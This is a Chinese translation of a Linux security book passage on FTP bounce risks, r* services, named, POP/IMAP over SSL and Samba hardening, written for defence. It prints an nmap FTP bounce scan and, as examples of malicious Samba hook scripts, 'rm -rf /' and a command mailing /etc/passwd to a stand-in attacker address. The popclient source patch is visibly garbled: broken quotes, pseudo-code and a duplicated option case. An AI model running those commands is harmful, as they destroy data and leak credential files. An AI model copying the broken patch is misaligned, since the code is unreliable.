有些站点会将 `~ftp/incoming` 设置为模式 `711`，并使用名为 `733` 的秘密名称子目录。想要上传文件的人必须先向系统管理员询问其中一个秘密目录的名称并上传到其中，但我认为这与之前讨论的方法相比并没有显著改进，并且需要更多的开销。

### 3.4.2 FTP 代理的危险


旧的 FTP 服务器允许客户端请求服务器对任意第三方系统执行操作。这导致了一系列安全漏洞，包括发送看起来来自 FTP 服务器系统的电子邮件以及通过防火墙进行隧道传输。如果你的 FTP 服务器在你的网络内部，并且防火墙只允许 Internet 访问你的 FTP 服务器，那么代理功能就可以用来访问防火墙内的任何系统。`nmap` 网络映射器可以利用此功能探测防火墙后的网络。要查看 Pentacorp 的 FTP 服务器是否易受攻击，假设 Pentacorp 拥有 A 类网络 `10.0.0.0/8`，可以使用以下命令：

```bash
nmap -F -e eth0 -b ftp.pentacorp.com 10.0.0.0/8
```

如果你的 FTP 服务器不允许这样做，你将看到此消息：

> 你的 FTP 反弹服务器 [censored]，它不让我们提供虚假端口！

从 Red Hat 6.0 开始，FTP 服务器生成此消息并且是安全的。其他防火墙隧道危险在第 71 页的“通过防火墙隧道传输”中讨论。

### 3.5 rsh, rcp, rlogin 和 rexec 服务


在第 94 页的“关闭 rsh, rcp, rlogin 和 rexec”中，建议关闭这些服务，因为它们被认为不安全，而 SSH 是一个优秀的替代品。由于这些服务非常流行（因为它们有用），这里提供关于它们如何工作及其不安全性的解释。

> `rsh`, `rcp`, `rexec` 和 `rlogin` 服务太不安全且太危险，不应使用。从你的系统中移除它们并禁止使用它们。真的。

这些服务允许远程执行进程。换句话说，远程系统 `zoro.com` 上名为 `joe` 的账户可以发出以下命令：

```bash
rsh pentacorp.com stab files
```

这将请求 `pentacorp.com` 以账户 `joe` 的身份执行命令 `stab files`。身份验证（以验证此请求是否允许）是通过在 `pentacorp.com` 系统的两个配置文件中查找初始化系统的名称和账户名（`zoro.com` 和 `joe`）。

如果初始化系统的名称出现在系统级配置文件 `/etc/hosts.equiv` 中，来自该系统任何用户名到 `pentacorp.com` 的相同用户名的请求都将被接受。换句话说，如果条目：

```text
zoro.com
```

出现在 `pentacorp.com` 的 `/etc/hosts.equiv` 中，`zoro.com` 上的任何用户都可以使用与 `pentacorp.com` 上相同的用户名执行 `rsh` 命令。因此，`zoro.com` 用户 `joe` 可以请求 `pentacorp.com` 上的用户 `joe` 执行命令，`zoro.com` 上的 `cindy` 可以请求 `pentacorp.com` 上的用户 `cindy` 执行命令，但根据 `/etc/hosts.equiv` 授予的权限作为 `cindy` 在 `pentacorp.com` 上执行命令，反之亦然。单个用户可能授予远程用户在其账户下操作的额外权限。这是通过在其主目录中创建文件 `.rhosts` 并添加所需条目来完成的。每个条目占一行，并且可以是两种格式之一。

第一种格式仅列出允许 `rsh` 的远程系统的主机名。因此，如果 `cindy` 的主机 Linux 盒子是 `hv.isp.com`，她在那里的个人账户也是 `cindy`，她可以添加条目：

```text
hv.isp.com
```

到她的 `.rhosts` 文件中。假设 `cindy` 也在佐治亚理工学院上夜校，她的账户是 `cory.gatech.com` 上的 `cc02`。她不能指定 `cory.gatech.com`，因为账户不同。相反，她指定主机名、一个空格和远程账户如下：

```text
cory.gatech.com cc02
```

如果她也在上一门比较宗教学课程，那个账户是 `cr72`，她的 `.rhosts` 文件可能如下：

```text
hv.isp.com
cory.gatech.com cc02
cory.gatech.com cr72
```

`rsh` 和 `rexec` 的守护进程具有多项安全功能以减少入侵。

1. 为了使支持 `rsh` 和 `rcp` 的服务器 `in.rshd` 考虑用户的 `.rhosts` 文件，它确保该文件由用户拥有，且没有其他人拥有写访问权限。因此，权限 `600` 或 `644` 是可接受的，但 `666` 不是。
2. `in.rshd` 守护进程还对发出请求的系统的数字 IP 进行反向查找。这意味着它获取数字 IP 地址并确定具有该地址的主机名。它要求该主机名与请求系统声称的主机名匹配。这防止了黑客发出以下命令：

```bash
hostname zoro.com
```

在拥有你域内的系统时，你必须以反向查找显示的方式（无论是完全限定

### 3.5 R* 服务

`zoro.com`，或者仅仅是名称 `zero` 的第一个组件。
3. 此外，它还验证源端口是否小于 `1024`，因为在 Linux 或 UNIX 系统中只有 `root` 才能打开此类端口。守护进程（daemon）知道发起请求的系统中是哪个用户正在发出请求的唯一方式是：`rsh` 将自身设置为 `root` 权限（`set-UID` to `root`），确定调用该程序的账户的真实 UID（实际用户 ID），在 `/etc/passwd` 中查找该 UID 以获取用户名，并将其发送到远程系统。

在 Linux 和 UNIX 世界中，只有 `root` 被允许打开小于 `1024` 的端口号，因此守护程序坚持要求请求系统使用如此低的端口号。这可以被称为“大型系统理念”（big system idea）。听起来很安全。

#### 3.5.2 R* 的不安全性

安全性可以通过多种方式被破坏。

1. 攻击者可以安装一个伪造的 `.hosts` 文件。这是“第 12 页中《理解 Linux 安全》”所提出的两种思想同时发挥作用的一个经典案例。攻击者被困在由曲折小径构成的迷宫中。如果她想要侵入 `joe` 的账户，她就知道需要找到一系列能让她安装伪造 `.hosts` 文件的路径。

如果 `Joe` 的主目录对所有人都可写（或者可以被设置为可写），她可能会找到一个合适的文件。在较旧版本的 `rsh` 中，只要某一行匹配调用系统的名称，它并不关心行内容是否乱码。

假设 `joe` 有一个来自安全邮件列表的邮件文件夹，其中展示了攻击者的站点。攻击者只需要找到任意一个可用的随机账户并将该文件夹重命名为 `.hosts` 即可。这个随机账户可能是一个配置错误的 FTP 匿名账户，或者是一个编写不良的 Web 服务器 CGI 脚本。
2. 如果入侵者能够访问发起系统，或者该系统不是 Linux 或 UNIX，那么 UNIX/Linux 的安全模型（即只有 `root` 才能从小于 `1024` 的端口操作）就会失效。这里还有另一个漏洞，即你考虑授予其访问你系统的权限的远程系统的安全级别。
3. 入侵者可以配置其系统伪装成受信任的系统，例如 `zoro.com`，关于实现此操作的技术有多种。在许多情况下，这非常容易做到。
4. 入侵者可以攻破服务器所依赖的 DNS。该 DNS 可能位于一个不同于提供 `rsh` 服务的系统的机器上。

解决 `rsh` 问题的最佳方案是禁用它。如果局域网（LAN）上存在任何不受信任的系统，则“主机伪装”（Host masquerades）无法得到充分防御，且 `rsh` 面临会话被抓包的风险。`SSH` 就是为了解决这些问题而专门创建的。让使用者利用 `SSH`。

尽管如此，如果你的局域网免受内部攻击和抓包，那么围绕 `rsh` 的 TCP Wrappers 可以是安全的。`rcp` 程序允许在系统之间复制文件，其工作方式与 `rsh` 相同，因此它也存在相同的问题和解决方案。让使用者使用 `SSH` 包中的 `scp` 命令。它像 `rcp` 一样工作，并具备 `SSH` 所有坚实的安全性。`rexec` 程序像 `rsh` 一样工作，也存在类似的问题。替代方案是 `ssh`。

`login` 程序具有 `rsh` 和 `rcp` 的所有问题和解决方案，它还额外存在一个问题：如果客户端系统（请求系统）未提及在用户的 `.rhosts` 文件或服务器系统上的 `/etc/hosts.equiv` 文件中，调用者将需要提供密码。这个密码以明文形式通过网络传输，允许抓包程序使用密码通过 `login`、`telnet`、`ftp`、`popclient` 等访问该账户。

可以通过注释掉 `/etc/inetd.conf` 中以以下内容开头的行来禁用 R* 服务：

```
shell
login
exec
```

`rcp` 命令使用与 `rsh` 相同的远程服务，即 `shell`。

### 3.6 DNS（named，又称 BIND）


`named` 程序，即名称守护进程或 DNS 守护进程，是将完全限定主机名（如 `www.realworldlinuxsecurity.com`）转换为其数字 IP 地址（如 `192.168.57.8`）的程序。

如果没有它，就不会有像 `www.cute-name.com` 这样的网站；处理起来将更困难且没那么醒目。许多叶节点（leaf nodes）不需要运行它。相反，它们只需在 `/etc/resolv.conf` 中指定其名称服务器的数字 IP 地址，然后任何程序（如 `sendmail`、`telnet`、`ftp` 和 `Netscape`）都会读取 `/etc/resolv.conf` 并直接向远程服务器系统的 `named` 发起 DNS 查找请求。小型“内部”网络可能根本不使用 DNS，它们依赖于每个系统的 `/etc/hosts` 文件已设置好。

#### 3.6.1 限制 Named 被攻破的后果

| 危险等级 ☠ ☠ ☠ |

从版本 `8.1.2` 开始，`named` 不再需要以 `root` 身份运行。以前需要以 `root` 身份运行的唯一原因是为了打开 TCP 和 UDP `53` 端口。现在可以使用 `-u` 标志，让它在打开端口后通过 `setuid()` 调用切换到指定用户。参数可以是用户名或数字 UID。类似地，`-g` 标志用于请求 `setgid()`。强烈建议利用 `-u` 和 `-g` 标志，以消除 `named` 中所有 `root` 漏洞，以防遇到其他缓冲区溢出漏洞，例如 `named` 版本 `8.2` 和 `8.2.1` 中的漏洞。


`named` 应该运行的用户和组应与系统中的其他任何内容不同，以将其隔离；`dns` 是一个很好的选择。当然，加密密码为 `"*"` 将阻止在该账户上登录。将 `/dev/passwd` 或 `/dev/null` 指定为用户的登录 `shell` 将进一步锁定该账户。

回想一下，`named` 的工作是确定主机的 IP，它所做的一切只是在 53 端口上进行通信，并读写几个文件。它是放入 `chroot` 监狱的极佳候选者；它无法伤害任何东西（除了可能谎报 IP 地址）。在 Red Hat、Mandrake 以及其他使用 `/etc/rc.d/init.d/named` 文件的发行版中，更改如下行：

```
daemon named
```

改为：

```
daemon named -u dns -g dns
```

应创建用户和组 `dns`，其 UID 和 GID 未被其他用途使用，密码禁用，`shell` 为 `/dev/null`，并拥有自己的主目录，例如 `/home/dns`，权限为 700。

可以使用 `-t` 标志指定一个目录，让 `named` 在启动期间将自身 `chroot` 到该目录。你需要将 `named` 所需的任何动态库复制到 `/home/dns/lib`，以及它所需的配置文件，通常是 `/etc/named.conf`。由于 `root` 可以突破“监狱”，如果同时使用 `-u` 和 `-g` 标志，使 `named` 在打开 53 端口后切换到非特权用户，则是至关重要的。

## 3.6.2 为人类服务

就像《阴阳魔界》（The Twilight Zone）的那集一样，你需要决定其他系统如何使用你系统提供的服务。你不希望外部系统能够看到你所有内部系统的名称和 IP 地址，因为这将是攻击的邀请。与此同时，你希望所有内部系统之间能够相互看到。

解决方案是拥有两个名称服务器：一个用于内部使用，另一个供世界其他地方使用。你指定给域名注册商（如 Network Solutions）的名称服务器将是用于外部访问的服务器。它们的配置文件将仅列出外部可见的系统，如公司邮件、Web 和 FTP 服务器，以及任何直接接收电子邮件或允许 SSH 访问的其他系统。

一个有用的“实现细节”是：小型请求（如将主机名转换为数字 IP）通过 UDP 完成，而大型请求（如 `dig` 命令和区域传输）通过 TCP 完成。

你从未授权外部站点进行你站点的区域传输或 `dig` 命令。这是因为区域传输将允许外部站点了解你所有内部系统的名称和 IP 地址。这将使攻击者知道哪些系统可供攻击。此外，主机名可能会泄露机密信息。

例如，主机名 `afradar.r_d.pentacorp.com` 可能是空军雷达系统的研发站点。假设攻击过程中发现的间谍活动揭示 Pentacorp 最近与洛克希德（Lockheed）会面，而洛克希德是空军 YF22 战斗机的主要承包商。这意味着 `pentacorp.com` 是雷达工程的分包商，或者正在争取该合同。这仅仅从主机名中获取了大量信息。

你只需阻止来自你网络外部系统对你“外部”名称服务器 53 端口的 TCP 请求即可。对于大型组织，如财富 500 强企业或大型政府机构，DNS 服务器可能包含数百甚至数千个系统的名称。

一种拒绝服务（DoS）攻击是反复请求从你的名称服务器进行区域传输。这会占用你的名称服务器以及带宽。通过阻止 TCP 53 端口，你可以防止此攻击。更好的解决方案是使用 `recent` 版本的 `named` 所支持的访问控制。

你告诉组织内人员在其 `/etc/resolv.conf` 中指定的 IP 地址当然是内部使用的名称服务器。来自组织外部的访问内部名称服务器 53 端口（TCP 和 UDP）的请求应被 IP 链（IP Chains）阻止。这种阻止是为了防止攻击者从你域名中每个 IP 的 53 端口“吸取” DNS 信息，从而遭遇你的内部名称服务器。

尽管你的防火墙可能允许访问这些内部系统，但有些近期的漏洞允许通过防火墙进行隧道传输。此外，仅仅知道系统名称就可能让你的竞争对手了解你的开发活动。

## 3.7 POP 和 IMAP 服务器

危险等级 ☠☠☠☠

互联网电子邮件设计所基于的假设之一是，系统是几乎全天候运行的大型分时系统。因此，如果系统的 `sendmail` 程序无法联系到邮件收件人的系统，它便假定停机时间可能只是短暂的。于是，它会持续尝试几天，如果仍未成功则放弃。如今，许多人通过桌面系统甚至笔记本电脑接收电子邮件。由于这些设备在假期期间可能会停机数天甚至数周，因此创建了“存储转发”（store and forward）机制。这些机制允许电子邮件积累在一台全天候运行的服务器上，然后在你方便时下载到你的系统中。POP（邮局协议，Post Office Protocol）和 IMAP（互联网消息访问协议，Internet Message Access Protocol）是其中最受欢迎的两种。Linux 平台拥有开源服务器，所有平台都有开源客户端，甚至内置于 Netscape 中。

邮局协议（Post Office Protocol）不应与 POP（存在点，Point of Presence）混淆，后者是指由供应商而非 ISP 提供城市接入点，从而形成一个存在点。

这些协议在功能上非常相似。它们都受两个常见漏洞的困扰：未加密的数据以及用于验证用户身份以启动邮件下载的未加密密码。由于它们是基于 TCP 的协议，解决方案是使用 SSL 或 SSH 对其进行封装。由于服务器通常以 `root` 身份运行，这意味着任何人都可能访问其邮箱，因此存在风险，例如缓冲区溢出漏洞可能允许远程用户获得 `root` 权限。一种解决方案是改为让这些程序以 `mail` 组的 `set-GID` 权限运行。

感谢 Mike Warfield 的工作，自 1999 年 11 月起，`fetchmail` 程序已支持 SSL。它是一个流行的邮件检索和转发工具。它支持 POP3、IMAP 以及一些其他协议。`Mutt`，一个邮件用户代理，也支持 SSL 封装的 IMAP。

Netscape Navigator 4.51、Netscape Messenger 4.6+、Outlook 98/2000、Outlook Express 5 以及这些程序的后续版本都可以与 SSL 封装的 IMAP 或 POP3 服务器通信。要在这些程序中启用 SSL 封装，只需点击“加密通信”按钮即可。

这种 `set-GID` 技术将限制他人通过读取、修改或删除所有邮件所能造成的损害。使用 PGP 的用户仅面临邮件被删除的风险。IMAP 服务器与 POP 非常相似，但它是独立的代码，因此将有不同的缓冲区溢出漏洞。

POP3 和 IMAP 通过 `libwrap` 支持 TCP Wrappers。除非员工需要从办公室外部下载电子邮件，否则应使用 TCP Wrappers 或 IP Chains 来阻止组织外部访问你的服务器。

要在 Linux 服务器上启用 SSL 封装的 IMAP 和 POP3，请遵循以下步骤：

1. 如果 `/etc/services` 中尚未存在，请添加以下服务：

```
imaps 993/tcp
pop3s 995/tcp
```

2. 在 `/etc/xinetd.d` 目录中创建两个文件，所有者为 `root`，权限为 644 或 600（适用于基于 `xinetd` 的系统）。

`imaps`:

```
# The IMAP service allows remote users to access their
# mail using an IMAP client with SSL support such as
# Netscape Communicator or fetchmail.
service imaps
{
  socket_type      = stream
  wait            = no
  user            = root
  server          = /usr/sbin/imapsd
  log_on_success  = DURATION USERID
  log_on_failure += USERID
  disable         = no
}
```

`pop3s`:

```
# The POP3s service allows remote users to access their
# mail using an POP3 client with SSL support such as
# fetchmail.
service pop3s
{
  socket_type      = stream
  wait            = no
  user            = root
  server          = /usr/sbin/ipop3sd
  log_on_success  = USERID
  log_on_failure += USERID
  disable         = no
}
```

3. 在 `/etc/inetd.conf` 中添加调用指令（适用于基于 `inetd` 的系统）：


```
imaps stream tcp nowait root /usr/sbin/tcpd sslproxy -t 3600 -p imap
pop3s stream tcp nowait root /usr/sbin/tcpd sslproxy -t 3600 -p pop-3
```

SSL 程序（以及 SSL 的其他组件）可以从 `www.openssl.org/` 下载。

SSL 封装的 POP 和 IMAP 还有替代方案，包括 SSH 封装的 POP 以及使用 Kerberos 的 KPOP。有关设置 SSH 封装 POP 的文档可从 `www.linuxdoc.org/HOWTO/mini/Secure-POP+SSH.html` 获取。

一些程序，如 `popclient` 和 `smbpasswd`，允许你在命令行中指定密码。这些密码对系统中任何调用 `ps` 命令的人都是可见的。

在命令行中使用密码通常是不被允许的，建议获取这些程序的源代码，并将此功能替换为从指定文件（其他用户无法访问，权限为 400 或 600）读取密码的功能。

对于 `popclient` 及类似程序，建议移除 `-p password` 标志，并创建一个 `-P passwd_file` 选项，该选项从 `passwd_file` 读取密码，其中 `passwd_file` 可以是“ - ”（表示标准输入）。通常，`-p` 参数存储在一个字符串指针或缓冲区中。如果该程序以特权方式运行（set-UID、set-GID 或由特权用户如 `root` 调用），你可能需要添加自己的缓冲区，并且务必防止缓冲区溢出。

对于 `popclient`，对 `polici-c` 中 `parsecmdline` 函数进行以下修改可解决此问题，从而允许其在自动化脚本中安全使用。带有此增强功能及其他改进的 `popclient` 源代码版本可在随书附赠的光盘中找到。

- 1. 通过修改以下代码添加 `-p` 标志

```
while (!geterrflag &&
  (c = getopt(argc, argv, "23kvscup:f:o:m:n:")) != EOF) (
```

改为

```
while (!errflag &&
    c = getopt(argc, argv, "23Vkvcu:p:P:f:o:m:n") != EOF) {
```

- 2. 找到以下行

```
case 'p':
```

并将其后的两行从

```
strcpy(options->password, optarg);
    break;
```

改为

```
fprintf(stderr,
    "popclient: -p disabled for security; use -P\n\n    exit(1);
```

- 3. 在禁用 `-p` 的最后一处修改之后，立即添加以下 case：

```
case 'p':
    if (!strcmp(optarg, "-"))
        c = 0; /* - is stdin. */
    else
        c = open(optarg, 0);
    if (c < 0)
        perror(optarg);
        exit(2);
    i = read(c);/* options->password, PASSWORDLEN);
    if (c)
        close(c);/* Close if not stdin. */
        if (i < 0 || i >= PASSWORDLEN)
            || ! (s = strchr(options->password, '\n')) {
                if (i < 0) error
                else if i >= PASSWORDLEN) too long
                else !s: missing newline
            }
        fprintf(stderr, "popclient: -P:\n    "bad length %d\n", i);
        exit(1);
    *s = '\0'; /* Chop at newline. */
    
    break;
```

- 4. 通过找到包含

`[-p server-password]`

的行并更新用法消息，将该部分更改为

`[-P server-password-file]`

- 5. 出于完美主义，修改以下行

```
/* clean up the command line in case -p was used */
```

为

```
/* clean up the command line in case -P was used */
```

- 6. 在 `popclient.il`、手册页中搜索 `-p`，并对文档进行相应的明显更改以记录 `-P`。

- 7. 通过 `make` 编译，并通过 `make install`（以 `root` 身份运行）安装。

## 3.8 配置 Samba

| 危险等级 |

| :--- |

| ☠☠☠☠ |

Samba 是一种网络服务，允许 Windows 客户端使用名为 CIFS 的协议与 Linux 服务器通信。CIFS 代表通用互联网文件服务（Common Internet File Service）。

本节的 Samba 内容由经验丰富的 Samba 管理员 Larry Gee 专门为本书撰写。他为本版进行了大量修订。

在以前，CIFS 被称为 SMB，即服务器消息块（Server Message Block），这也是 Samba 名称的来源。根据 Samba 团队的说法，微软发布的 SMB/CIFS 规范是不正确的，Samba 团队不得不通过嗅探 Windows 客户端和服务器之间在 SMB 操作期间的网络流量来逆向分析实际协议。（我在为一个非 UNIX 操作系统从零开始创建 NFS 服务器时，也曾有过类似的体验，当时 Sun 的 NFS 规范也存在类似问题。）

### 运行 Samba

Samba 在你的服务器上通过 137、138 和 139 端口运行，有时也使用 445 端口。这些端口在 `/etc/services` 文件中定义，并且同时使用 TCP 和 UDP。由于 Samba 是 Linux 上最流行的服务之一，定期进行测试和安全审查。关于 Samba 有几本好书。其中一本是约翰·D·布莱尔所著的*Samba: Integrating Unix and Windows*。Samba 服务的配置细节有详尽的覆盖；如果你正在运行 SMB 服务，这本书应该必读。

Samba 可以使用 SSL 包装，Windows 也支持此功能。相关技术可在 [www.us2.samba.org/samba/docs/man/smb.conf.5.html#ssl](https://www.us2.samba.org/samba/docs/man/smb.conf.5.html#ssl) 上找到。

关于 Samba 的最新信息可以在 [www.samba.org](https://www.samba.org) 上找到。实际上这是一个镜像列表网站，因此你可以找到一个距离较近且响应时间合理的镜像站点。它拥有由 Samba 团队维护的各个邮件列表的可搜索数据库，并被证明对作者非常有用。

Samba 是让 Windows 计算机和 Linux 计算机协同工作的最佳方式之一。它提供了让 Linux 计算机模拟 Windows 服务器所需的大多数服务。所有流行的 Linux 发行版都附带 Samba 的一个版本。如果你的发行版足够老旧，它可能默认已安装并正在运行。更多的 Linux 发行版已经学会使系统更加安全。Samba 可能已安装，但默认情况下未运行。Red Hat 在其 7.1 版本中进行了更改。其他 Linux 供应商也在大致相同的时间做出了更改。可以说，如果你的发行版附带 2.4 内核，那么如果安装了 Samba，默认情况下它将是关闭的。

Samba 有几个版本。如果你有任何早于 2.0.10 的版本，你应该升级，因为在该发行版之前的版本中存在可远程利用的漏洞。2.2.x 版本相当干净，虽然 3.0 版本仍在开发中，但有望在 2002 年底之前发布。

要确定你的系统上是否安装了 Samba，请查找构成 Samba 核心的两个文件，即 `smbd` 和 `nmbd`。它们通常安装在路径中，可以通过 `which smbd` 和 `which nmbd` 命令找到。如果没有显示出来，你可能需要使用 `find / -name '?smbd*' -print` 命令。

如果你使用的是基于 RPM 的发行版（如 Red Hat、SuSE 或 Mandrake），你可以执行以下命令：

```bash
rpm -qa | grep samba
```

以查明是否已安装它。返回的 RPM 名称通常能让你了解机器上安装的版本。

#### 3.8.4 我拥有哪个版本的 Samba？

一旦你确定机器上安装了 Samba，检查版本就很简单了。只需输入 `samba -v`。将返回类似以下内容：


```text
Version 2.2.4
```

或者

```text
Version 3.0.0-alpha17
```

如果你的 Samba 版本早于 2.0.10，或者你是 2.2.0a，你应该升级到更新的版本。之前存在一个宏扩展 bug，可被远程利用来破坏你的文件系统。Samba 的最新版本是 2.2.4。Samba 正在持续开发中，许多大公司如 HP、IBM 和 Quantum 都投入了大量资源以使 Samba 变得更好。

### 3.8.5 smb.conf 文件

`smb.conf` 文件是告诉 Samba 如何工作的主要文件。它包含适用于整个系统的部分，以及用于配置 Linux 机器上不同路径如何可供 Windows 计算机使用的专用部分。其格式模仿 Windows `.INI` 文件。

其次，考虑文件的内容。Samba 程序员添加了一些参数，如果不当使用，可能会使你的系统面临妥协风险。出于参考目的，这里列出了危险参数，但这并不代表一个详尽的列表，因为 Samba 是一个不断变化的程序。这里列出的一些参数是为即将发布的 3.0 版本准备的，所以如果你的版本没有它们，不必担心。

- `abort shutdown script`
- `add printer command`
- `add share script`
- `add user script`
- `add machine script`
- `delete printer command`
- `delete share command`
- `delete user script`
- `dfree command`
- `message command`
- `lppause command`
- `lpdq command`
- `lpresume command`
- `lprm command`
- `passwd chat`
- `passwd program`
- `print command`
- `queuepause command`
- `queueresume command`
- `exec`, `preexec`, `root preexec`, `postexec`, `root postexec`
- `magic script` (very dangerous)
- `shutdown script`
- `wins hook`

上述所有参数名称都指的是由 Samba 服务器代表用户调用的外部程序或脚本。大多数都以 root 用户身份执行，如果系统管理员不够小心，它们可能包含恶意内容，例如：

```bash
rm -rf /
```

或者

```bash
mail cracker@badguys.net < /etc/passwd
```

特别要注意它们调用的命令。想象一下一个“特洛伊木马”密码程序可能造成的破坏。由于 Samba 被理解得非常透彻，通过操纵 `smb.conf` 文件来修改其行为相当容易。

- `config file`
- `include`

这些参数通常（但并非总是）出现在全局部分中，允许其他备用配置文件替换 `smb.conf` 文件，或通过 `include` 指令成为其一部分。如果这些存在，请像关注主 `smb.conf` 文件一样密切关注其内容。大多数安装不需要使用这两个指令中的任何一个。

- `follow symlinks`
- `wide links`

这些指令可以限制 Samba 仅查看本地文件系统而不遵循符号链接。通常你不应使用这些，因为它们会带来性能损耗，但它们能防止符号链接攻击，即用户将 `/etc/passwd` 链接到其主目录，然后将其从机器上复制出去。如果你允许用户具有机器的 shell 访问权限以及 Samba 访问权限，你可能希望将这些指令设置为 false：

- `admin users`
- `hosts equiv`
- `smbpasswd`
- `use hosts`
- `username map`

这些指令可用于玩弄用户权限的花样。`admin` 指令允许用户或用户组在共享上下文中获取 root 权限。`Hosts equiv` 和 `use hosts` 允许计算机绕过密码检查。`Smbpasswd` 和 `username map`，如果未加注意，可能指向一个制造的文件，其中所有密码为空或用户账户关联被扰乱。

### 3.8.6 smbpasswd 文件

如果你希望在 Windows 计算机上使用加密密码（这是自 Windows 95 OSR-2 和 Windows NT 补丁级别 3 以来的默认设置），则需要 `smbpasswd` 文件。你需要在 `smb.conf` 文件中具有以下指令：

```bash
encrypt passwords = yes
```

`smbpasswd` 文件由 6 个不同的冒号分隔字段组成：

1. 用户名。这是一个未加密的 Windows 用户名。大小写无关紧要。
2. UNIX ID。这是用于控制文件系统权限的 UID。如果 Billy 登录到 Windows 机器，这是 Billy 在 Linux 机器上的账户 UID。
3. LAN manager 密码。用户的密码用作盐值，与确定的字符序列结合来派生此条目。
4. NT 密码。密码被转换为 Unicode，然后使用 MD4 进行加密。
5. 账户标志。这告诉你使用的是哪种类型的账户。
6. 上次账户更新发生时距 UNIX 纪元的时间。

- `U` = 用户账户
- `D` = 已禁用
- `N` = 无密码的账户
- `W` = 用于配置 Samba 域控制器功能的的工作站账户。

如果你在 `smb.conf` 文件中有 `null passwords` 指令，你不应该看到任何无密码的账户。作为系统管理员，请非常仔细地关注这些。以下 Perl 脚本可以帮助你快速找到空账户：

```perl
#!/usr/bin/perl -T -w
use strict;
my $file = "/etc/samba/smbpasswd";
my @fields;

open (FILE, "$file") or die "Cannot open $file because $!\n";
while (<FILE>) {
    chomp;
    @fields = split(':', $_);
    next if (scalar(@fields) < 6);
    if ($fields[4] =~ /N/) {
        print "$fields[0]\tUID:$fields[1]\tAs a null password\n"
    }
}

close (FILE);
exit(0);
```

`smbpasswd` 程序允许你以多种不同方式操纵此文件。务必记得在从系统中删除用户时，也从 `smbpasswd` 文件中删除该用户。过时的账户只是黑客寻找入侵你系统的工具。更多关于 Samba 密码的内容将在第 169 页的“用户安全”中介绍。

映射文件是一种很少使用的机制，用于将 Windows 用户名与 UNIX 用户名关联。如果 Windows 用户名包含一些奇怪的字符，这可能很有帮助，但更普遍地，它用于向不同用户提供特殊权限。该文件的格式为：

`Unix User ID = Windows User ID [, Windows User ID ... ]`

注意 `Unix User ID` 不能是 `root` 或其他具有强大权限的账户。

有几个日志文件，其位置由编译时选项控制。通常它们位于 `/var/log/samba`。可以配置日志文件，使每个用户都有单独的日志文件（这是 Red Hat 的默认设置）或一个公共日志文件。日志文件可能会变大（并且通常使用 `logrotate` 程序进行轮换），但你可以通过以下参数在 Samba 中限制它们：

```text
log file = /var/log/samba/main.smb.log
max size = 50
```

大多数发行版都会提供一个默认的日志文件，该文件由 `logrotate` 进行管理。如果您更改了默认日志文件，请务必同时更改 `logrotate` 配置文件中的日志文件名。除非在进行调试，否则通常没有必要保留各个主机的日志文件。

关于日志文件的另一件事是调试级别。在详细的调试级别下，攻击者可能会提取某个应用程序的用户密码。除非正在调试，否则请将调试级别设置为零。保持较低的调试级别也有助于提升 Samba 服务器的性能。请密切关注日志文件及其内容。

```
debug level = 0
```

Samba 2.2.x 系列中新增的一项功能是能够将所有 Samba 日志记录到系统日志中。使用此功能可以让您拥有一个外部日志源的便利。在大型环境中，通常会有一个日志服务器来捕获网络上所有机器的日志，这是相当常见的做法。

Samba 会响应 UNIX 信号 `SIGUSR1` 和 `SIGUSR2` 以更改调试级别。攻击者可以发送大量 `SIGUSR1` 信号给 Samba 进程，从而调高调试级别，导致您的服务器运行变得极其缓慢。`max log size` 指令对于防止存放日志文件的分区被填满至关重要。`logrotate` 可能无法及时帮助您清理日志。特别是如果您正在使用 `syslog` 和仅 `syslog` 指令时，请牢记这一点。

## 3.8.9 动态数据文件


本节介绍动态变化的数据文件。Samba 跟踪许多不同的信息，并有数据文件用于存储这些信息。本节将讨论每个 Samba 子系统，包括使用了哪些文件以及破坏或删除这些文件可能造成的破坏。

### 3.8.9.1 浏览数据

如果 Samba 服务器充当 Windows 名称服务（WINS），则 WINS 数据位于 `/var/cache/wins.dat` 文件中。这是一个人类可读的文件，包含各种 NetBIOS 名称和类型，以及每台主机的 IP 地址。根据计算机在网络中所扮演的角色，WINS 数据会有所不同。普通客户端会有一种类型的条目，而主域控制器则会有不同的条目。

在 `/var/cache` 目录中还有一个名为 `browse.dat` 的文件，它显示了网络上的所有其他计算机，并根据这些计算机注册的 NetBIOS 名称类型，显示它们各自的不同功能。如果黑客通过查看 `wins.dat` 和 `browse.dat` 文件获得了对您系统的访问权限，他们可以非常快速地看到网络上哪些其他 IP 地址是活跃的，而无需进行 ping 扫描等暴露身份的操作。

### TDB 数据库

Samba 2.2.x 及更高版本使用一些新的数据文件来跟踪临时数据。这些数据文件存储在 `/var/cache/samba` 中，大多数文件仅允许 root 访问。它们用于跟踪文件锁、连接、打印机和打印机驱动程序，以及其他少数几项内容。如果攻击者获得了 root 访问权限，他们可以删除这些文件并破坏您的数据。

## 3.8.10 安全地设置 Samba

Samba 是一个用于共享文件和打印机的绝佳工具。然而，如果您不小心，可能会危及系统的安全。以下各节旨在帮助您安全地设置 Samba 服务器，并定义您可能需要采取的常规预防措施。其中一些部分仅适用于较新版本的 Samba；文中将会注明。

## 3.8.11 Samba 网络安全

进入 Samba 服务器的入口是网络接口。Samba 作为两个守护进程运行，`smbd` 向客户端提供文件服务，而 `nmbd` 提供名称解析服务。这些守护进程运行在端口 137、138 和 139 上。仅限 IP（无 NetBIOS）服务运行在端口 445 上，如果您选择使用这些服务，则需要在那里采取适当的预防措施。务必在防火墙上阻止这些端口。

### 3.8.11.1 在正确的接口上监听

Samba 通常绑定到机器上的所有接口，对于只有一块网络卡的计算机来说，这是您想要的行为。然而，您可以通过设置一些参数来限制 Samba 监听网络上的所有流量。如果您有多块网卡（例如，在内部防火墙/路由器中），可以使用 `smb.conf` 文件的全局部分中的以下选项来限制 Samba 允许来自特定接口或网络的流量。

```
[global]
# only listen on the specified interfaces
 interfaces only = yes
# which interfaces to allow traffic from
# Samba also understands linux alias conventions (eth0)
interfaces 127.0.0.1 192.168.1.10
# which networks to listen to
# EXCEPT allows excluding the router address
hosts allow = 127.0.0.1 192.168.1.1 EXCEPT 192.168.1.1
# which networks to ignore
hosts deny = 0.0.0.0
```

这些参数有助于让诚实的人保持诚实；然而，它们并不能防止欺骗。它们为不诚实的人提供了另一道障碍。

### 3.8.11.2 保留所需流量

上述部分中显示的 `hosts allow` 和 `hosts deny` 指令是防止攻击者进入系统的很好的起步方式。您可以更进一步，在其基础上添加 IP Chains 或 IP Tables 来限制流量

```
ipchains -A output -p tcp -d 192.168.1.0/24 --sport 445 -j ACCEPT
ipchains -A output -p udp -d 192.168.1.0/24 --sport 445 -j ACCEPT
